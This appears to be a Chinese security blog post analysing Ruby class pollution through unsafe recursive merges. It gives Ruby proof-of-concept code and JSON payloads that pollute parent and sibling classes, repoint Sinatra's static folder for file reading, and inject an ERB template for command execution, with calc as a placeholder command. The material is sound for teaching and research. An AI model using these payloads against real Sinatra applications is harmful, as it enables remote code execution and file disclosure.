




# 浅析Ruby类污染及其在Sinatra框架下的利用-先知社区

> **来源**: https://xz.aliyun.com/news/16229  
> **文章ID**: 16229

---

和JavaScript中的原型链污染类似，Ruby中也存在类似的概念——类污染，两者都是对象进行不安全的递归合并导致的。

网上也没有相关的分析文章，只有下面这篇文章应该是第一次谈到这个问题

[Class Pollution in Ruby: A Deep Dive into Exploiting Recursive Merges · Doyensec's Blog](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)

刚打完的长城杯，ezruby一题应该就是基于这篇文章的进一步利用。

# Ruby类介绍

在Ruby中也是万物皆对象，下面定义一个Person类

```
class Person
  @@cnt = 1

  # 定义属性
  attr_accessor :name, :age

  # 初始化方法
  def initialize(name, age)
    @name = name
    @age = age
  end

  # 定义方法
  def greet
    "My name is #{@name} and I am #{@age} years old."
  end
end

person = Person.new("Alice", 30)
puts person.greet

```

类变量（类似Java中类的静态变量）使用 `@@`前缀，实例变量使用`@`前缀，在类内部才用这种前缀来访问。

冒号前缀表示符号（Symbol）。Ruby中符号是轻量级的、不可变的字符串，通常用于表示标识符、方法名或键。符号的优点是它们在内存中只存储一次，因此在需要频繁比较或使用相同字符串的情况下，使用符号可以提高性能。

Ruby对象的一些特殊的方法：

* `attr_accessor`：定义实例变量的getter和setter方法，用于在类外部访问实例变量
* `initialize`：类的构造方法
* `to_s`：toString方法
* `inspect`：和`to_s`差不多，常用于debug
* `method_missing`：类似PHP的`__call__`方法，当调用一个不存在的方法时会触发
* `respond_to?`：检测对象是否有某个方法或属性
* `send`：根据方法名来调用（包括私有方法）
* `public_send`：根据方法名调用公开方法

Ruby对象的一些特殊的属性（类也算对象）

* `class`：当前对象的类
* `superclass`：父类
* `subclasses`：子类数组
* `instance_variables`：实例变量名的数组
* `class_variables`：类变量名的数组

当然不止这些，具体就不展开了。

在 Ruby 中，所有类的顶层父类是 BasicObject。BasicObject 是 Ruby 类层次结构中的根类，所有其他类都直接或间接地继承自它。

```
class MyClass
end

puts MyClass.superclass          # Output: Object
puts Object.superclass           # Output: BasicObject
puts BasicObject.superclass      # Output: nil

```

在实际污染中，用到的就是`class`、`superclass`、`subclasses`，先从当前对象找到当前类，回溯到父类Object，锁定要污染的变量所在的类，在从父类一层层找子类。

# 不安全的递归合并

Doyensec的文章中给出下面的merge函数，也介绍了两个实际案例，分别是`Ruby on Rails`的内置组件`ActiveSupport`提供的``deep_merge`，以及`Hashie`库提供的`deep_merge`，感兴趣可以看原文。

```
def recursive_merge(original, additional, current_obj = original)
  additional.each do |key, value|
    if value.is_a?(Hash)
      if current_obj.respond_to?(key)
        next_obj = current_obj.public_send(key)
        recursive_merge(original, value, next_obj)
      else
        new_object = Object.new
        current_obj.instance_variable_set("@#{key}", new_object)
        current_obj.singleton_class.attr_accessor key
      end
    else
      current_obj.instance_variable_set("@#{key}", value)
      current_obj.singleton_class.attr_accessor key
    end
  end
  original
end

```

`recursive_merge`用于递归地合并两个对象`original`和`additional`

1. 遍历`additional`对象中的每个键值对。
2. 处理嵌套的哈希：如果值是一个哈希，它会检查 `current_obj`（初始为 `original`）是否响应该键。如果响应，则递归合并嵌套的哈希。如果不响应，则创建一个新对象，将其设置为实例变量，并为其创建访问器。
3. 处理非哈希值：如果值不是哈希，则直接在 `current_obj` 上设置该值为实例变量，并为其创建访问器。

下面举个例子

## 污染当前对象

```
class A

  attr_accessor :x

  def initialize(x)
    @x = x
  end

  def merge_with(additional)
    recursive_merge(self, additional)
  end

  def check
    protected_methods().each do |method|
      instance_eval(method.to_s)
    end
  end
end

```

若能污染`protected_methods`，其返回值就能传入`instance_eval`进行代码执行。

```
a = A.new(1)
a.merge_with({
               "protected_methods": ["`calc`"]
             })
a.check

```

当然这种污染的是当前的对象的属性，不影响父类以及其他实例对象。

## 污染父类

```
class Base
  @@cmd = "puts 1"
end

class Cmder < Base

  def merge_with(additional)
    recursive_merge(self, additional)
  end

  def check
    eval(Base.cmd)
    # eval(@@cmd)  污染失败
    "ok"
  end
end

```

对于这种情况，可以污染父类的cmd变量，但这里实际上是给父类Base增加了一个实例变量`@cmd`，从而通过`Base.cmd`访问时，实例变量`@cmd`遮盖了类变量`@@cmd`

```
c = Cmder.new
c.merge_with({
               "class": {
                 "superclass": {
                   "cmd": "`calc`"
                 }
               }
             })
c.check
puts Base.class_variables  # @@cmd
puts Base.instance_variables  # @cmd

```

## 污染其他类

```
class Cmder
  @@cmd = "puts 1"

  def check
    eval(Cmder.cmd)
  end
end

class Innocent
  def merge_with(additional)
    recursive_merge(self, additional)
  end
end

```

能否通过`Innocent`污染到`Cmder`呢？

`subclasses`可以获取到Object的子类，但返回的是数组，可以利用数组的`sample`方法，随机返回一个元素

通过多次污染，总有几率污染到`Cmder`这个子类

```
1000.times do
  i = Innocent.new
  i.merge_with({
                 "class": {
                   "superclass": {
                     "subclasses": {
                       "sample": {
                         "cmd": "`calc`"
                       }
                     }
                   }
                 }
               })
end

c = Cmder.new
c.check

```

Doyensec的文章中提到了污染`Person`的`url`变量来进行SSRF，以及污染`KeySigner`的`signing_key`变量来实现伪造签名数据。但我们追求的是通过类污染来实现RCE。

注意文章中给出的情景，使用的是`Sinatra`这个web框架，能否污染框架中的关键变量来实现RCE或者文件读取之类的操作呢。

# 类污染设置静态目录

`Sinatra`框架中是通过如下配置来设置静态目录的

```
set :public_folder, File.dirname(__FILE__) + '/static'

```

跟进`set`方法可以发现他实际就是给`Sinatra::Base`设置了一个属性的getter、setter



`class_eval`给类动态定义方法



因此可以污染`public_folder`这个属性来修改静态目录

```
{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"public_folder": "E:/Server"}}}}}}

```

# 类污染写ERB模板

调试可知`Sinatra::Base`有个`templates`属性，类型是哈希，猜测他是存放模板的



`Sinatra` 默认模板位于`./views`目录，也支持通过如下语句定义模板

```
template :index do
  '%div.title Hello World!'
end

```

可以看到`template`方法实际就是给`templates`这个属性赋值（block是个代码块，需要返回模板内容的字符串）



有如下渲染模板的路由

```
get('/') do
    erb :hello
end

```

ERB (Embedded Ruby) 是 Ruby 标准库自带的，它允许在文本文件中嵌入 Ruby 代码，通常用于生成 HTML 文件，就是一个模板引擎。

可以污染`templates`属性，覆盖`hello`模板，通过ERB模板实现RCE

```
{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"templates": {"hello": "<%= `calc` %>"}}}}}}}

```

# 参考文章

[Class Pollution in Ruby: A Deep Dive into Exploiting Recursive Merges · Doyensec's Blog](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)
